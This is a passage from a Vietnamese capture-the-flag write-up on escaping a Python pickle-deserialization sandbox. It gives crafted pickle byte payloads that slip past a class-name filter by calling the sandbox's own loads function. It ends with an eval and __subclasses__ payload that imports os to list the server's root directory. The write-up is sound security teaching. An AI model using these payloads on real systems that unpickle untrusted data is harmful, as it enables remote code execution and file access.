rồi vì đặt modul = app, name=sandbox.\_pickle.loads ,

    def \_\_reduce\_\_(self):

        return (app.sandbox.\_pickle.loads , (pickle.dumps(u()),))

Oke bây giờ tôi sẽ tạo 1 file test.py ở cùng cấp với thư mục /app trong
project và mở project bằng vs code nhìn sẽ như sau



Mọi người import app.sandbox ở file test.py và chạy code thì nhìn kết
quả byte pickle mà chúng ta thu được khi dump class e , nhìn vào opcode
khi dumps class e thì byte pickle của nó sẽ như sau

b'\x80\x04\x95H\x00\x00\x00\x00\x00\x00\x00\x8c\\x07_pickle\x94\x8c\\x05loads\\x94\x93\x94C,\x80\x04\x95!\x00\x00\x00\x00\x00\x00\x00\x8c\x08builtins\x94\x8c\x05print\x94\x93\x94\x8c\x04hehe\x94\x85\x94R\x94.\x94\x85\x94R\x94.'

Modul = \_pickle , name = loads , từ sau \x94c là chuỗi byte pickle –
dumps từ class-malicious là đầu vào cho hàm loads ở đây ta sẽ injection
như sau

b'\x80\x04\x95H\x00\x00\x00\x00\x00\x00\x00\x8c\x03app\x94\x8c\x15sandbox.\_pickle.loads\x94\x93\x94C,\x80\x04\x95!\x00\x00\x00\x00\x00\x00\x00\x8c\x08builtins\x94\x8c\x05print\x94\x93\x94\x8c\x04hehe\x94\x85\x94R\x94.\x94\x85\x94R\x94.'

Chỉ đổi 2 chỗ mà tôi bôi vàng-đỏ xem có thành công không nhé

Sau khi chạy thử thì kết quả vẫn thành công cho thấy ta inject hợp lệ và
ý tưởng đã đúng

Res = none là bởi vì hàm print ở class u nó k phải hàm có giá trị trả về
nma các bạn vẫn thấy nó print hehe tức là mình đã thành công thực thi
được code

b'\x80\x04\x95H\x00\x00\x00\x00\x00\x00\x00\x8c\x03app\x94\x8c\x15sandbox.\_pickle.loads\x94\x93\x94C,\x80\x04\x95!\x00\x00\x00\x00\x00\x00\x00\x8c\x08builtins\x94\x8c\x05print\x94\x93\x94\x8c\x04hehe\x94\x85\x94R\x94.\x94\x85\x94R\x94.'
Encode bằng b64 xem rồi gửi lên web xem kết quả như nào nhé với đoạn
code như sau



Kết quả khi gửi lên web



Ta nhận được None vì 
Nhìn lại code backend biến result nhận kq từ unpickle tức là nhận đc
None vì print k có giá trị trả về

Mặc dù đã vượt qua hàm find_class nhưng mà còn vấn đề nữa là cần phải
vượt hàm unpickle trong hàm unpickle nó có 1 vòng for
kiểm
tra phải vượt qua hết backlist_name , payload byte của chúng ta chắc
chắn phải đi qua

Bài viết cũng đã quá dài rồi các bạn đọc tới đây có thể thử tự vượt qua
– mình đã ngồi mất 7 ngày để làm bài này

**Payload để đọc được thư mục ở /**

payload=b'\x80\x04\x95\x9d\x00\x00\x00\x00\x00\x00\x00\x8c\x03app\x94\x8c\x15sandbox.\_pickle.loads\x94\x93\x94C\x81\x80\x04\x95v\x00\x00\x00\x00\x00\x00\x00\x8c\x08builtins\x94\x8c\x04eval\x94\x93\x94\x8cZ"
".join(().\_\_class\_\_.\_\_bases\_\_\[0\].\_\_subclasses\_\_()\[84\].load_module("o"+"s").listdir("/"))\x94\x85\x94R\x94.\x94\x85\x94R\x94.'
🡺 nhớ chuyển sang base64 rồi gửi lên sever nhé



Payload để đọc cờ



Hẹ hẹ tự nghĩ nhé :v



Cảm ơn mọi người đã đọc
